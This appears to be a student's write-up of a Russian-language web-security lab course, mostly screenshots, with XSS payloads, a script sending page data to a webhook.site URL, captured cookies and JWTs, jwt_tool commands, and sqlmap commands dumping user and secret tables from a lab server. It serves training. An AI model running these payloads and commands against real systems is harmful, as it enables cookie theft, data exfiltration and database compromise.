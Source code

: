 Задание CE: уровень 0




![image](https://github.com/user-attachments/assets/35395473-951f-4e6b-8135-bcd7bf1e8fc9)


![image](https://github.com/user-attachments/assets/360ca223-440b-4db3-9c9d-91dff4b2b3dd)


![image](https://github.com/user-attachments/assets/0c1967fc-082c-43e3-88b6-27034452d221)




Задание XSS: уровень 0


![image](https://github.com/user-attachments/assets/b36c8816-b801-4863-82db-aa8e5940411e)

![image](https://github.com/user-attachments/assets/8197605c-2165-4646-a0d8-27c1865e0d14)









Задание FU: уровень 0



![image](https://github.com/user-attachments/assets/9c4f8d0f-572a-4397-8467-d04bdf917dd3

![image](https://github.com/user-attachments/assets/87f3e36c-5994-4ce0-81c3-b427f223a4ae)


![image](https://github.com/user-attachments/assets/874509f7-f323-4f30-86e3-c6f90584ec54)

![image](https://github.com/user-attachments/assets/c653cfc3-2808-4542-9d8b-72afbdaf41c0)










Command Execution: уровень 1

![image](https://github.com/user-attachments/assets/b7ebee0b-3b24-41de-aa81-83540012771a)

![image](https://github.com/user-attachments/assets/cfa68234-318c-41f3-8fb6-f60d2c0faaa2)

![image](https://github.com/user-attachments/assets/4f956069-8a47-4900-8962-71ba8103f02d)



Command Execution: уровень 2


![image](https://github.com/user-attachments/assets/4f2182ee-3b58-4be8-8407-d5c353a10680)


![image](https://github.com/user-attachments/assets/ea996ee5-fe19-47d3-82ae-be4f20bbfb8d)




![image](https://github.com/user-attachments/assets/75ee9eb2-423a-4a37-ab62-975791109093)

![image](https://github.com/user-attachments/assets/7efa1922-9ed9-419b-a7de-fce6a679acb8)




Command Execution: уровень 3

![image](https://github.com/user-attachments/assets/6e7ff00c-b425-47ec-b141-198de6fc58cb)

![image](https://github.com/user-attachments/assets/7cab80e3-b248-480f-8526-bac6d03bc214)

![image](https://github.com/user-attachments/assets/17ea7e22-1900-42e2-a690-1c6942bbdc38)



Command Execution: уровень 4


![image](https://github.com/user-attachments/assets/a797218f-b1dd-4fc3-9d02-2c743f720e34)

![image](https://github.com/user-attachments/assets/493e9da4-b2b0-49f7-a5dd-a0cc15250ba7)





 XSS: уровень 1

 ![image](https://github.com/user-attachments/assets/a200b3e2-622a-4419-8f5b-cb6420feaa74)

 <script>alert(document.cookie)</script>
![image](https://github.com/user-attachments/assets/62e43c79-285c-48cc-941f-9b8698606d7d)



 XSS: уровень 2

 
<body onload=alert(document.cookie)>

 ![image](https://github.com/user-attachments/assets/14402f74-d56c-4beb-a4fe-097906b96645)
 

![image](https://github.com/user-attachments/assets/8d07cb68-9225-41d2-88f3-4d6e0c68bc02)



  XSS: уровень 3


![image](https://github.com/user-attachments/assets/9c05f94f-ec0c-4ca0-8581-892fb8a2a8c6)





 ![image](https://github.com/user-attachments/assets/b4bddabe-5e73-41a6-920c-91eb1c49f105)

{"alg":"HS256","typ":"JWT"}



'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>

<img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id)>'">

<SvG/oNloAd=alert(/w4piesy3nm/)>

some_important_info

<SvG/oNloAd=alert(some_important_info.txt)>

![image](https://github.com/user-attachments/assets/3092edf7-eacf-44ef-9b63-c685cb6f04ae)


![image](https://github.com/user-attachments/assets/1db9e6f9-d01e-483d-92a3-c297622c1ce9)



token_dare=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU; secret=MzB7WDU1X0MwMGsxM19Nb05TdDNyX30K; important_person_cookies=MzB7eHM1XzFkS193SDBfbjMzRF9pdH0K; token_dare=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU



<script>fetch('/some_important_info').then(r=>r.text()).then(d=>fetch('https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f?flag='+d))</script>


<SvG/oNloAdfetch('/some_important_info').then(r=>r.text()).then(d=>fetch('[https://your-server.com](https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f)?flag='+d))>

<script src="file:/var/www/html/csp-pentesting/malicious.js"></script>

	https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f

python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test"

python3 jwt_tool.py -t http://51.250.91.149/XSS/XSS_level3.php -rc "jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU;anothercookie=test" -M pb-np


![image](https://github.com/user-attachments/assets/6def24d6-e4ef-431c-9ea4-770bf8c84be5)

![image](https://github.com/user-attachments/assets/8899d99c-af68-4706-9606-d505730989e4)

![image](https://github.com/user-attachments/assets/a9f8020a-6fd6-4069-89a4-71a248193b3c)



  XSS: уровень 4

  
  ![image](https://github.com/user-attachments/assets/53ae8c91-d57b-469e-a8db-58823efef263)
  

![image](https://github.com/user-attachments/assets/b975d289-b902-4242-a5c9-838c07e6d4a2)


![image](https://github.com/user-attachments/assets/813d410c-f4ba-4b5b-86bb-eb846e0188a7)


![image](https://github.com/user-attachments/assets/5ed73545-dc70-487e-8294-ae52728ba45e)




File Inclusion: уровень 1

![image](https://github.com/user-attachments/assets/a06f1a4d-ad4a-46af-9102-9b81671add90)

![image](https://github.com/user-attachments/assets/ba4d1474-f18e-4f04-bd5e-f8b59ea56199)


File Inclusion: уровень 2

![image](https://github.com/user-attachments/assets/b6e3b87d-2443-4c8e-b379-21ef0a089335)



![image](https://github.com/user-attachments/assets/141c0458-fa18-46cd-b1ea-89da7be6ae13)


![image](https://github.com/user-attachments/assets/cbe58cb1-8a85-401d-bacb-079394f3a488)





File Inclusion: уровень 3

![image](https://github.com/user-attachments/assets/93c358d5-c2eb-4e04-9464-872663714c45)

![image](https://github.com/user-attachments/assets/15697450-b352-452c-bab2-ef50d7decd20)


![image](https://github.com/user-attachments/assets/9ae24d63-7ca9-4ee4-81cb-f729427a1f77)


![image](https://github.com/user-attachments/assets/2e78e121-203d-410b-b037-7f1ca77ef689)




![image](https://github.com/user-attachments/assets/f87d0dff-8c4c-4cd3-9178-709a0c905e51)




File Inclusion: уровень 4




![image](https://github.com/user-attachments/assets/03f4b645-8fdd-4de7-9d9d-d8334b88638d)

![image](https://github.com/user-attachments/assets/261345c3-4199-4cd4-9614-23e40fc47571)

![image](https://github.com/user-attachments/assets/84f369cd-0716-460e-8df9-5da08c378538)




SQLI: уровень 1


![image](https://github.com/user-attachments/assets/a15f2e67-5735-4dda-8718-ece037314b2e)


SQLI: уровень 2


![image](https://github.com/user-attachments/assets/f0e0ccce-1b74-4cab-a7b9-fb7f885fd2c3)


![image](https://github.com/user-attachments/assets/4c091ee1-489d-443b-9e66-415383d06c8f)



SQLI: уровень 3

![image](https://github.com/user-attachments/assets/4eace13f-115a-4529-8acd-684d45f31cec)


















![image](https://github.com/user-attachments/assets/b203ea74-25a2-49d7-9889-7ec1e867b18b)




![image](https://github.com/user-attachments/assets/347659ad-5d79-4c00-bf57-30f3e03fadf1)



![image](https://github.com/user-attachments/assets/093044e3-7c91-4447-b007-b9942b0bf45b)




sqlmap -u http://51.250.91.149/SQL/sql3.php --data="number=1&submit=%D0%9D%D1%83%2C+%D0%B2%D0%B2%D0%B5%D0%BB" -D 1ccb8097d0e9ce9f154608be60224c7c --tables


![image](https://github.com/user-attachments/assets/4faf5bdc-09d0-4fd1-9db2-749d4a504c48)


sqlmap -u http://51.250.91.149/SQL/sql3.php --data="number=1&submit=%D0%9D%D1%83%2C+%D0%B2%D0%B2%D0%B5%D0%BB" -D 1ccb8097d0e9ce9f154608be60224c7c -T books --dump


![image](https://github.com/user-attachments/assets/5d4d88ee-00c7-4045-a388-850698255d66)


sqlmap -u http://51.250.91.149/SQL/sql3.php --data="number=1&submit=%D0%9D%D1%83%2C+%D0%B2%D0%B2%D0%B5%D0%BB" -D 1ccb8097d0e9ce9f154608be60224c7c -T flags --dump


![image](https://github.com/user-attachments/assets/8180c4ee-900c-460a-b829-0d5bc183ed71)


sqlmap -u http://51.250.91.149/SQL/sql3.php --data="number=1&submit=%D0%9D%D1%83%2C+%D0%B2%D0%B2%D0%B5%D0%BB" -D 1ccb8097d0e9ce9f154608be60224c7c -T secret --dump

![image](https://github.com/user-attachments/assets/676719fb-9a17-4980-b42a-258ea3b86054)

sqlmap -u http://51.250.91.149/SQL/sql3.php --data="number=1&submit=%D0%9D%D1%83%2C+%D0%B2%D0%B2%D0%B5%D0%BB" -D 1ccb8097d0e9ce9f154608be60224c7c -T users --dump

![image](https://github.com/user-attachments/assets/2a516c25-650d-4aae-999d-78dddf89b35d)

sqlmap -u http://51.250.91.149/SQL/sql3.php --data="number=1&submit=%D0%9D%D1%83%2C+%D0%B2%D0%B2%D0%B5%D0%BB" -D course --tables

![image](https://github.com/user-attachments/assets/809a92a5-3ca8-46b6-9ce7-34c6000a6865)




sqlmap -u http://51.250.91.149/SQL/sql3.php --data="number=1&submit=%D0%9D%D1%83%2C+%D0%B2%D0%B2%D0%B5%D0%BB" -D course --dump-all


![image](https://github.com/user-attachments/assets/38c3b949-3833-4d99-a849-87535d7d3699)


STUD{SQl_R00L3S!}  ???? флаг не принимается :(




